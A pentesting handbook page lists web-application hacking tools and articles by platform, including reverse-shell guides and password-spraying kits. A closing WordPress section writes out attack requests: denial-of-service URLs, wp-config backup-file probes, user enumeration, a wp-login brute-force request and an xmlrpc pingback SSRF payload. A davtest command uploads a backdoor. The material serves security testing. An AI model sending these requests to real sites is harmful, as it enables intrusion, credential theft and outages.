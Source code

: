 # Web Technologies

<details>

<summary><a href="https://www.adobe.com/marketing/experience-manager.html">Adobe AEM</a></summary>

* [aem-hacker](https://github.com/0ang3el/aem-hacker) - Tools to identify vulnerable Adobe Experience Manager (AEM) webapps.
* [aemscan](https://github.com/Raz0r/aemscan) - Adobe Experience Manager Vulnerability Scanner
* [https://github.com/emadshanab/Adobe-Experience-Manager/blob/main/aem-paths.txt](https://github.com/emadshanab/Adobe-Experience-Manager/blob/main/aem-paths.txt)
* [https://resources.infosecinstitute.com/topic/adobe-cq-pentesting-guide-part-1/](https://resources.infosecinstitute.com/topic/adobe-cq-pentesting-guide-part-1/)
* [https://www.slideshare.net/0ang3el/hacking-aem-sites](https://www.slideshare.net/0ang3el/hacking-aem-sites)
* [https://experienceleague.adobe.com/docs/experience-manager-release-information/aem-release-updates/previous-updates/aem-previous-versions.html](https://experienceleague.adobe.com/docs/experience-manager-release-information/aem-release-updates/previous-updates/aem-previous-versions.html)

</details>

<details>

<summary>Apache Web Server</summary>

* [apache-users](https://www.kali.org/tools/apache-users/) - This Perl script will enumerate the usernames on any system that uses Apache with the UserDir modul

</details>

<details>

<summary>APIs</summary>

* [https://github.com/shieldfy/API-Security-Checklist](https://github.com/shieldfy/API-Security-Checklist)
* [https://github.com/OWASP/API-Security/blob/master/2019/en/dist/owasp-api-security-top-10.pdf](https://github.com/OWASP/API-Security/blob/master/2019/en/dist/owasp-api-security-top-10.pdf)
* [https://hackanythingfor.blogspot.com/2020/07/api-testing-checklist.html](https://hackanythingfor.blogspot.com/2020/07/api-testing-checklist.html)
* [https://cheatsheetseries.owasp.org/cheatsheets/REST\_Assessment\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/REST\_Assessment\_Cheat\_Sheet.html)
* [https://cheatsheetseries.owasp.org/cheatsheets/REST\_Security\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/REST\_Security\_Cheat\_Sheet.html)
* [https://pentestbook.six2dez.com/enumeration/webservices/apis](https://pentestbook.six2dez.com/enumeration/webservices/apis)
* [https://github.com/0xCGonzalo/Golden-Guide-for-Pentesting/tree/master/API%20Security](https://github.com/0xCGonzalo/Golden-Guide-for-Pentesting/tree/master/API%20Security)
* [https://cheatsheet.haax.fr/web-pentest/attacking\_apis/](https://cheatsheet.haax.fr/web-pentest/attacking\_apis/)
* [https://infosecwriteups.com/31-tips-api-security-pentesting-480b5998b765?gi=4d455b3b778f](https://infosecwriteups.com/31-tips-api-security-pentesting-480b5998b765?gi=4d455b3b778f)
* [https://github.com/dxa4481/AttackingAndDefendingTheGCPMetadataAPI/blob/master/README.md](https://github.com/dxa4481/AttackingAndDefendingTheGCPMetadataAPI/blob/master/README.md)
* [https://github.com/streaak/keyhacks](https://github.com/streaak/keyhacks)
* [https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d](https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d) - API Endpoint wordlist
* [imperva/automatic-api-attack-tool](https://github.com/imperva/automatic-api-attack-tool) - Imperva's customizable API attack tool takes an API specification as an input, generates and runs attacks that are based on it as an output.
* [Astra](https://github.com/flipkart-incubator/Astra) - Automated Security Testing For REST API's
* [OWASP API check](https://owasp.org/www-project-apicheck/#div-tools) - APICheck is an environment for integrating existing HTTP APIs tools and create execution chains easily.
* [VX-API](https://github.com/vxunderground/VX-API) - Collection of various WINAPI tricks / features used or abused by Malware
* [https://malapi.io/](https://malapi.io/) - Cheatsheet for commands that could be potentially used for malicious activity.
* [crAPI](https://github.com/OWASP/crAPI) - **c**ompletely **r**idiculous **API** (crAPI) will help you to understand the ten most critical API security risks. crAPI is vulnerable by design, but you'll be able to safely run it to educate/train yourself.
* [https://github.com/Net-hunter121/API-Wordlist](https://github.com/Net-hunter121/API-Wordlist) - A wordlist of API names used for fuzzing web application APIs.
* [https://github.com/metlo-labs/metlo](https://github.com/metlo-labs/metlo) - Metlo is an open-source API security platform
* _Hacking: The next generation - Application Protocol Handlers, pg. 96_

_For training on APIs and API hacking, please see_ [_https://github.com/jassics/security-study-plan/blob/main/api-security-study-plan.md_](https://github.com/jassics/security-study-plan/blob/main/api-security-study-plan.md)__

</details>

<details>

<summary>API: GraphQL</summary>

### [GraphQL](https://graphql.org/)

* [InQL](https://github.com/doyensec/inql) - A Burp Extension for GraphQL Security Testing
* [https://hackernoon.com/understanding-graphql-part-1-nxm3uv9](https://hackernoon.com/understanding-graphql-part-1-nxm3uv9)
* [https://graphql.org/learn/introspection/](https://graphql.org/learn/introspection/)
* [https://jondow.eu/practical-graphql-attack-vectors/](https://jondow.eu/practical-graphql-attack-vectors/)
* [https://lab.wallarm.com/securing-and-attacking-graphql-part-1-overview/](https://lab.wallarm.com/securing-and-attacking-graphql-part-1-overview/)
* [https://medium.com/@apkash8/graphql-vs-rest-api-model-common-security-test-cases-for-graphql-endpoints-5b723b1468b4](https://medium.com/@apkash8/graphql-vs-rest-api-model-common-security-test-cases-for-graphql-endpoints-5b723b1468b4)
* [https://the-bilal-rizwan.medium.com/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696](https://the-bilal-rizwan.medium.com/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696)

</details>

<details>

<summary>ASP.NET</summary>

* [viewgen](https://github.com/0xacb/viewgen) - a ViewState tool capable of generating both signed and encrypted payloads with leaked validation keys

<!---->

* [https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/#PoC](https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net/#PoC)



</details>

<details>

<summary>Cloudflare</summary>

* [cloudflare\_enum](https://github.com/mandatoryprogrammer/cloudflare\_enum) - Cloudflare DNS Enumeration Tool for Pentesters



</details>

<details>

<summary>Drupal</summary>

* [Droopscan](https://github.com/droope/droopescan) - plugin-based scanner that aids security researchers in identifying issues with several CMS.
* [drupwn](https://github.com/immunIT/drupwn) - Drupal enumeration & exploitation tool
* [https://hackertarget.com/drupal-security-scan/](https://hackertarget.com/drupal-security-scan/)
* [Drupal: Reverseshell](https://www.hackingarticles.in/drupal-reverseshell/)

</details>

<details>

<summary><a href="https://firebase.google.com/">Firebase</a></summary>

## [Firebase](https://firebase.google.com/)

* [Insecure-Firebase-Exploit](https://github.com/MuhammadKhizerJaved/Insecure-Firebase-Exploit) - A simple Python Exploit to Write Data to Insecure/vulnerable firebase databases! Commonly found inside Mobile Apps. If the owner of the app have set the security rules as true for both "read" & "write" an attacker can probably dump database and write his own data to firebase db.
* [Firebase-Extractor](https://github.com/viperbluff/Firebase-Extractor) - A tool written in python for scraping firebase data
* [Pyrebase](https://github.com/thisbejim/Pyrebase) - A simple python wrapper for the Firebase API.
* [https://blog.securitybreached.org/2020/02/04/exploiting-insecure-firebase-database-bugbounty/](https://blog.securitybreached.org/2020/02/04/exploiting-insecure-firebase-database-bugbounty/)

</details>

<details>

<summary>Firebird</summary>

* [https://www.infosecmatter.com/firebird-database-exploitation/](https://www.infosecmatter.com/firebird-database-exploitation/)



</details>

<details>

<summary>Flask</summary>

* [Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign) - Command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys.

<!---->

* [https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)

</details>

<details>

<summary>Google Web Toolkit</summary>

* [GWTMap](https://github.com/FSecureLABS/GWTMap) - GWTMap is a tool to help map the attack surface of Google Web Toolkit (GWT) based applications.
  * [https://labs.f-secure.com/blog/gwtmap-reverse-engineering-google-web-toolkit-applications](https://labs.f-secure.com/blog/gwtmap-reverse-engineering-google-web-toolkit-applications)

</details>

<details>

<summary>.htaccess File</summary>

* [htshells](https://www.kali.org/tools/htshells/) - htshells is a series of web based attacks based around the .htaccess files. Most of the attacks are centered around two attack categories. Remote code/ command execution and information disclosure.



</details>

<details>

<summary>HTTP/2</summary>

* [https://portswigger.net/research/http2](https://portswigger.net/research/http2)



</details>

<details>

<summary>IIS</summary>

* [https://github.com/inquisb/miscellaneous/blob/master/ms10-070\_check.py](https://github.com/inquisb/miscellaneous/blob/master/ms10-070\_check.py)

</details>

<details>

<summary>Java Applets</summary>

* _Advanced Penetration Testing: Using the Java Applet for Payload Delivery - pg. 31_



</details>

<details>

<summary>JavaScript</summary>

* [JSScanner](https://github.com/dark-warlord14/JSScanner) - Scan JS Files for Endpoints and Secrets
* [JSFScan.sh](https://github.com/KathanP19/JSFScan.sh) - Automation for javascript recon in bug bounty.
* [jshole](https://github.com/callforpapers-source/jshole) - A JavaScript components vulnerability scanner, based on RetireJS
* [Retire.JS](https://github.com/h3xstream/burp-retire-js) - Burp/ZAP/Maven extension that integrate Retire.js repository to find vulnerable Javascript libraries.
* [JSshell](https://github.com/shelld3v/JSshell) - JavaScript reverse/remote shell from XSS
* [unmap](https://github.com/chbrown/unmap) - Unpack a JavaScript Source Map back into filesystem structure
* [JSA](https://github.com/w9w/JSA) - Javascript security analysis (JSA) is a program for javascript analysis during web application security assessment.
* [https://securityjunky.com/scanning-js-files-for-endpoint-and-secrets/](https://securityjunky.com/scanning-js-files-for-endpoint-and-secrets/)

</details>

<details>

<summary>JBoss</summary>

* [jboss-autopwn](https://www.kali.org/tools/jboss-autopwn/) - This JBoss script deploys a JSP shell on the target JBoss AS server. Once deployed, the script uses its upload and command execution capability to provide an interactive session.
* [jexboss](https://github.com/joaomatosf/jexboss) - JexBoss: Jboss (and Java Deserialization Vulnerabilities) verify and EXploitation Tool

</details>

<details>

<summary>Jenkins</summary>

* [pwn\_jenkins](https://github.com/gquere/pwn\_jenkins) - Notes about attacking Jenkins servers
* [Accenture/jenkins-attack-framework](https://github.com/Accenture/jenkins-attack-framework) - Project fpr enumerating and attacking Jenkins
* [https://pentestbook.six2dez.com/enumeration/webservices/jenkins](https://pentestbook.six2dez.com/enumeration/webservices/jenkins)
* [https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Jenkins.md](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Jenkins.md)

</details>

<details>

<summary>Jira</summary>

* [https://pentestbook.six2dez.com/enumeration/webservices/jira](https://pentestbook.six2dez.com/enumeration/webservices/jira)
* [https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Jira.md](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Technologies/Jira.md)
* [jira\_scan](https://github.com/bcoles/jira\_scan) - A simple remote scanner for Atlassian Jira

</details>

<details>

<summary>Joomla</summary>

* [JCS](https://github.com/TheM4hd1/JCS) - JCS (Joomla Component Scanner) made for penetration testing purpose on Joomla CMS
* [Joomscan](https://wiki.owasp.org/index.php/Category:OWASP\_Joomla\_Vulnerability\_Scanner\_Project) - OWASP Joomla! Vulnerability Scanner (JoomScan) is an open source project, developed with the aim of automating the task of vulnerability detection and reliability assurance in Joomla CMS deployments.
* [juumla](https://github.com/oppsec/juumla) - Juumla is a python tool created to identify Joomla version, scan for vulnerabilities and search for config files.
* [Joomla: Reverse Shell](https://www.hackingarticles.in/joomla-reverse-shell/)

</details>

<details>

<summary>JSON Web Tokens</summary>

* [jwt\_tool](https://github.com/ticarpi/jwt\_tool) - A toolkit for testing, tweaking and cracking JSON Web Tokens
  * [https://github.com/ticarpi/jwt\_tool/wiki/Attack-Methodology](https://github.com/ticarpi/jwt\_tool/wiki/Attack-Methodology)
* [jwt-hack](https://github.com/hahwul/jwt-hack) - jwt-hack is tool for hacking / security testing to JWT. Supported for En/decoding JWT, Generate payload for JWT attack and very fast cracking(dict/brutefoce)
* [jwt-pwn](https://github.com/mazen160/jwt-pwn) - Security Testing Scripts for JWT
* [https://trustfoundry.net/jwt-hacking-101/](https://trustfoundry.net/jwt-hacking-101/https://hackernoon.com/can-timing-attack-be-a-practical-security-threat-on-jwt-signature-ba3c8340dea9https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)
* [https://hackernoon.com/can-timing-attack-be-a-practical-security-threat-on-jwt-signature-ba3c8340dea9](https://trustfoundry.net/jwt-hacking-101/https://hackernoon.com/can-timing-attack-be-a-practical-security-threat-on-jwt-signature-ba3c8340dea9https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)
* [https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/](https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/)
* [https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a](https://medium.com/swlh/hacking-json-web-tokens-jwts-9122efe91e4a)
* [https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6](https://medium.com/101-writeups/hacking-json-web-token-jwt-233fe6c862e6)

</details>

<details>

<summary>Megento</summary>

* [magescan](https://github.com/steverobbins/magescan) - Scan a Magento site for information
* [https://magescan.com/](https://magescan.com/)
* [https://github.com/steverobbins/magento-version-identification-php](https://github.com/steverobbins/magento-version-identification-php)

</details>

<details>

<summary>MSExchange</summary>

* [https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html](https://blog.orange.tw/2021/08/proxylogon-a-new-attack-surface-on-ms-exchange-part-1.html)



</details>

<details>

<summary>NGINX</summary>

* [ nginxpwner](https://github.com/stark0de/nginxpwner) - Nginxpwner is a simple tool to look for common Nginx misconfigurations and vulnerabilities.

</details>

{% content-ref url="oauth-2.0.md" %}
[oauth-2.0.md](oauth-2.0.md)
{% endcontent-ref %}

<details>

<summary><a href="https://developers.onelogin.com/saml">OneLogin - SAML</a></summary>

* [SAMLExtractor](https://github.com/fadyosman/SAMLExtractor) - A tool that can take a URL or list of URL and prints back SAML consume URL.ex

</details>

<details>

<summary>OWA/O365</summary>

* [MailSniper](https://github.com/dafthack/MailSniper) - MailSniper is a penetration testing tool for searching through email in a Microsoft Exchange environment for specific terms (passwords, insider intel, network architecture information, etc.). It can be used as a non-administrative user to search their own email, or by an administrator to search the mailboxes of every user in a domain.
* [byt3bl33d3r/SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) - Scripts to make password spraying attacks against Lync/S4B, OWA & O365 a lot quicker, less painful and more efficient
* [o365enum](https://github.com/gremwell/o365enum) - Enumerate valid usernames from Office 365 using ActiveSync, Autodiscover v1, or office.com login page.
* [o365-attack-toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit) - o365-attack-toolkit allows operators to perform oauth phishing attacks.
* [http://www.blackhillsinfosec.com/?p=4694](http://www.blackhillsinfosec.com/?p=4694) - UserName Recon/Password Spraying
* [http://www.blackhillsinfosec.com/?p=5089](http://www.blackhillsinfosec.com/?p=5089) - Password Spraying MFA/2FA
* [http://www.blackhillsinfosec.com/?p=5330](http://www.blackhillsinfosec.com/?p=5330) - Password Spraying/GlobalAddressList
* [http://www.blackhillsinfosec.com/?p=5396](http://www.blackhillsinfosec.com/?p=5396) - Outlook 2FA Bypass
* [https://silentbreaksecurity.com/malicious-outlook-rules/](https://silentbreaksecurity.com/malicious-outlook-rules/) - Malicious Outlook Rules
* [http://www.blackhillsinfosec.com/?p=5465](http://www.blackhillsinfosec.com/?p=5465) - Outlook Rules in Action

</details>

<details>

<summary>PHP</summary>

* [phpggc](https://github.com/ambionics/phpggc) - a library of PHP unserialize() payloads along with a tool to generate them, from command line or programmatically.
* [Chankro](https://github.com/TarlogicSecurity/Chankro) - bypass **disable\_functions** and **open\_basedir** in your pentests.

</details>

<details>

<summary>Redis</summary>

* [https://cheatsheet.haax.fr/web-pentest/injections/server-side-injections/ssrf/#redis-exploitation](https://cheatsheet.haax.fr/web-pentest/injections/server-side-injections/ssrf/#redis-exploitation)



</details>

<details>

<summary>Ruby on Rails</summary>

* [brakeman](https://github.com/presidentbeef/brakeman) - A static analysis security vulnerability scanner for Ruby on Rails applications
  * [https://brakemanscanner.org/](https://brakemanscanner.org/)



</details>

<details>

<summary>SAP</summary>

* [SAP\_RECON](https://github.com/chipik/SAP\_RECON) - PoC for CVE-2020-6287, CVE-2020-6286 (SAP RECON vulnerability)
* [https://github.com/shipcod3/mySapAdventures](https://github.com/shipcod3/mySapAdventures)
* [https://github.com/emadshanab/SAP-wordlist/blob/main/SAP-wordlist.txt](https://github.com/emadshanab/SAP-wordlist/blob/main/SAP-wordlist.txt)
* [https://buddysap.com/list-of-sap-port-used-in-sap-abap-and-java-system/](https://buddysap.com/list-of-sap-port-used-in-sap-abap-and-java-system/)

</details>

{% content-ref url="ssl-tls-and-certificates.md" %}
[ssl-tls-and-certificates.md](ssl-tls-and-certificates.md)
{% endcontent-ref %}

<details>

<summary>Virtual Hosts</summary>

* [virtual-host-discovery](https://github.com/jobertabma/virtual-host-discovery) - A script to enumerate virtual hosts on a server.
* [vhosts-sieve](https://github.com/dariusztytko/vhosts-sieve) - Searching for virtual hosts among non-resolvable domains
* [VHostScan](https://github.com/codingo/VHostScan) - A virtual host scanner that performs reverse lookups, can be used with pivot tools, detect catch-all scenarios, work around wildcards, aliases and dynamic default pages.ex

</details>

{% content-ref url="web-application-firewall.md" %}
[web-application-firewall.md](web-application-firewall.md)
{% endcontent-ref %}

<details>

<summary><a href="https://en.wikipedia.org/wiki/WebDAV">WebDav</a></summary>

## [WebDav](https://en.wikipedia.org/wiki/WebDAV)

[davtest](https://www.kali.org/tools/davtest/) - Scan the given WebDAV server

* ```
  $ davtest -move -sendbd auto -url http://$ip:8080/webdav/
  ```

[cadaver](https://www.kali.org/tools/cadaver/) - A command-line WebDAV client for Unix.

* ```
  $ cadaver http://$ip:8080/webdav/
  ```

</details>

<details>

<summary>Web Proxies</summary>

* [https://github.com/GrrrDog/weird\_proxies](https://github.com/GrrrDog/weird\_proxies) - Reverse proxies cheatsheet

</details>

<details>

<summary>Wordpress - Resources</summary>

* [WPScan](https://github.com/wpscanteam/wpscan) - The Wordpress Vulnerability Scanner
  * [https://wpsec.com/](https://wpsec.com/) - Online Wordpress scanner
  * [WPScan:WordPress Pentesting Framework](https://www.hackingarticles.in/wpscanwordpress-pentesting-framework/)

<!---->

* [Wordpress Exploit Framework ](https://github.com/rastating/wordpress-exploit-framework) - A Ruby framework designed to aid in the penetration testing of WordPress systems.
* [WPSploit](https://github.com/espreto/wpsploit) - This repository is designed for creating and/or porting of specific exploits for WordPress using metasploit as exploitation tool.
* [xmlrpc-scan](https://github.com/nullfil3/xmlrpc-scan) - Scan urls or a single URL against XMLRPC wordpress issues.
* [wpxploit](https://github.com/relarizky/wpxploit) - Simple Python Script For Performing XMLRPC Dictionary Attack
* [plecost](https://www.kali.org/tools/plecost/) - Wordpress finger printer tool, plecost search and retrieve information about the plugins versions installed in Wordpress systems.
* XMLRPC Attacks
  * [https://blog.nem.ec/2020/01/22/discover-cloudflare-wordpress-ip/](https://blog.nem.ec/2020/01/22/discover-cloudflare-wordpress-ip/)
  * [https://pentestbook.six2dez.com/enumeration/webservices/wordpress](https://pentestbook.six2dez.com/enumeration/webservices/wordpress)
  * [https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)
* [https://kathan19.gitbook.io/howtohunt/cms/wordpress](https://kathan19.gitbook.io/howtohunt/cms/wordpress)
* [WordPress Pentest Lab Setup in Multiple Ways](https://www.hackingarticles.in/wordpress-pentest-lab-setup-in-multiple-ways/)
* [Multiple Ways to Crack WordPress login](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)
* [WordPress: Reverse Shell](https://www.hackingarticles.in/wordpress-reverse-shell/)



</details>

<details>

<summary>WordPress Common Bugs</summary>

* Denial of Service via load-scripts.php

```
http://target.com/wp-admin/load-scripts.php?load=react,react-dom,moment,lodash,wp-polyfill-fetch,wp-polyfill-formdata,wp-polyfill-node-contains,wp-polyfill-url,wp-polyfill-dom-rect,wp-polyfill-element-closest,wp-polyfill,wp-block-library,wp-edit-post,wp-i18n,wp-hooks,wp-api-fetch,wp-data,wp-date,editor,colorpicker,media,wplink,link,utils,common,wp-sanitize,sack,quicktags,clipboard,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-reply,json2,underscore,backbone,wp-util,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrate,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,esprima,jshint,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-bar,wplink,wpdialogs,word-count,media-upload,hoverIntent,hoverintent-js,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embed,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,site-health,privacy-tools,updates,farbtastic,iris,wp-color-picker,dashboard,list-revisions,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
```

* Denial of Service via load-styles.php

```
http://target.com/wp-admin/load-styles.php?&load=common,forms,admin-menu,dashboard,list-tables,edit,revisions,media,themes,about,nav-menus,widgets,site-icon,l10n,install,wp-color-picker,customize-controls,customize-widgets,customize-nav-menus,customize-preview,ie,login,site-health,buttons,admin-bar,wp-auth-check,editor-buttons,media-views,wp-pointer,wp-jquery-ui-dialog,wp-block-library-theme,wp-edit-blocks,wp-block-editor,wp-block-library,wp-components,wp-edit-post,wp-editor,wp-format-library,wp-list-reusable-blocks,wp-nux,deprecated-media,farbtastic
```

* Log files exposed

```
http://target.com/wp-content/debug.log
```

* Backup file wp-config exposed

```
.wp-config.php.swp
wp-config.inc
wp-config.old
wp-config.txt
wp-config.html
wp-config.php.bak
wp-config.php.dist
wp-config.php.inc
wp-config.php.old
wp-config.php.save
wp-config.php.swp
wp-config.php.txt
wp-config.php.zip
wp-config.php.html
wp-config.php~
```

* Information disclosure wordpress username

```
http://target.com/?author=1
```

```
http://target.com/wp-json/wp/v2/users
http://target.com/?rest_route=/wp/v2/users
```

* Bruteforce in wp-login.php

```
POST /wp-login.php HTTP/1.1
Host: target.com

log=admin&pwd=BRUTEFORCE_IN_HERE&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftarget.com%2Fwp-admin%2F&testcookie=1
```

* XSPA in wordpress

```
POST /xmlrpc.php HTTP/1.1
Host: target.com

<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://yourip:port</string></value>
</param><param>
<value>
<string>https://target.com></string>
</value>
</param></params>
</methodCall>
```

Source: [https://github.com/daffainfo/AllAboutBugBounty/blob/master/CMS/WordPress.md](https://github.com/daffainfo/AllAboutBugBounty/blob/master/CMS/WordPress.md)

</details>

{% embed url="https://youtu.be/sQ4TtFdaiRA" %}
